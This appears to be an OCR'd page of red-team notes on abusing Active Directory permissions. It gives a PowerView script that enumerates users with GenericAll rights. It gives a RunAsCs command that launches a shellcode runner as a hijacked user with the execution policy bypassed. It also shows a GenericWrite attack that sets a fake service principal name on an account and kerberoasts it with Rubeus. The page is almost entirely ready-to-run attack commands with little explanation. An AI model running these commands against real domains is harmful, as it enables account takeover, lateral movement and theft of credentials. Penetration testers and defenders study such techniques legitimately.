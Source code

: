 
**PowerView Script to Enumerate Domain Users with GenericAll Permissions**
```powershell
# Ensure PowerView is imported (if you have PowerView loaded as a script)
# Import-Module PowerView.ps1

# Step 1: Enumerate all domain users
$domainUsers = Get-DomainUser

# Step 2: Loop through each user and check for GenericAll permissions
foreach ($user in $domainUsers) {
    # Get the distinguished name of the user
    $userDn = $user.distinguishedname

    # Step 3: Get ACLs for each user
    $acl = Get-ObjectAcl -DistinguishedName $userDn -ResolveGUIDs

    # Step 4: Filter for GenericAll rights
    $genericAllPermissions = $acl | Where-Object {
        $_.ActiveDirectoryRights -match "GenericAll"
    }

    # Step 5: If GenericAll permissions are found, print relevant information
    if ($genericAllPermissions) {
        $genericAllPermissions | ForEach-Object {
            "User: " + $user.sAMAccountName
            "Object DN: " + $_.ObjectDN
            "Object SID: " + $_.ObjectSID
            "Permissions: " + $_.ActiveDirectoryRights
            "Inherited: " + $_.IsInherited
            "------------------------"
        }
    }
}

```


- Run as user after hijack
```powershell
.\RunAsCs.exe <user> <password> "powershell -ExecutionPolicy ByPass c:\users\Public\Downloads\shellcode-runner.ps1" -d <domain>
```

## GenericWrite

```powershell
$SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword)
Set-DomainObject -Credential $Cred -Identity testservice1 -Set @{serviceprincipalname='foobar/xd'}
Rubeus.exe kerberoast /user:testservice1 /nowrap
```

